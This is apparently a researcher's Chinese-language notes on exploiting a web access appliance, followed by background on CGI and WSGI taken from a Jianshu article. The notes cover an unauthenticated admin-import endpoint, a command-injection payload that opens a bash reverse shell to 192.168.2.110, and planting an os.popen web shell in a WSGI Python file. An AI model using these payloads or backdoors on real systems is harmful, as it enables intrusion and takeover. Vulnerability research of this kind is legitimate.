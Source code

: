 ```yaml
---
title: Web处理逻辑
tags: web,漏洞
renderNumberedHeading: true
grammar_cjkRuby: true
---
```


# 1. 漏洞分析

1. 首先未授权获取目标设备的管理账户权限，在`/spog/importLocalUsers`中，可以未授权导入任意的用户，包含管理员，因此可以使用该接口添加管理员，管理员的密码同样可以通过导入设置

2. 字符串过滤不严格，可以构造命令，污染system执行，命令;bash -i >& /dev/tcp/192.168.2.110/12345 0>&1;#

![命令注入点](./images/1_1.PNG)

![未过滤输入字符串](./images/2.PNG)

# 配置文件分析

在httpd.conf配置文件查看可以访问的url以及对应的文件地址，例如配置文件有：
WSGIScriptAlias /__api__/v1 /usr/src/EasyAccess/www/python/authentication_api/authentication_api.py process-group=authentication application-group=%{GLOBAL}
那么访问/__api__/v1   https://192.168.2.109/__api__/v1，就可以执行/usr/src/EasyAccess/www/python/authentication_api/authentication_api.py
可以在authentication_api.py文件插入shell，或者在authentication_api.py调用的.py处插入shell
在authentication_api.py调用_init__.py插入os.popen(request.args.get('x')).read()，
那么访问https://192.168.2.109/__api__/v1?x=ls%20-l%20/;ifconfig就可以执行名
想办法获取x的值
request.args.get('x')，这里涉及到from flask import request利用

在Web部署的方案上，有一个方案是目前应用最广泛的：
	* 
首先，部署一个Web服务器专门用来处理HTTP协议层面相关的事情，比如如何在一个物理机上提供多个不同的Web服务（单IP多域名，单IP多端口等）这种事情。
	* 
然后，部署一个用各种语言编写（Java, PHP, Python, Ruby等）的应用程序，这个应用程序会从Web服务器上接收客户端的请求，处理完成后，再返回响应给Web服务器，最后由Web服务器返回给客户端。


那么，要采用这种方案，Web服务器和应用程序之间就要知道如何进行交互。为了定义Web服务器和应用程序之间的交互过程，就形成了很多不同的规范。这种规范里最早的一个是CGI][3，1993年开发的。后来又出现了很多这样的规范。比如改进CGI性能的FasgCGI，Java专用的Servlet规范，还有Python专用的WSGI规范等。提出这些规范的目的就是为了定义统一的标准，提升程序的可移植性。
WSGI工作流程以及调用关系见
作者：iqunqunqun
链接：https://www.jianshu.com/p/c66d3adeaaed
来源：简书



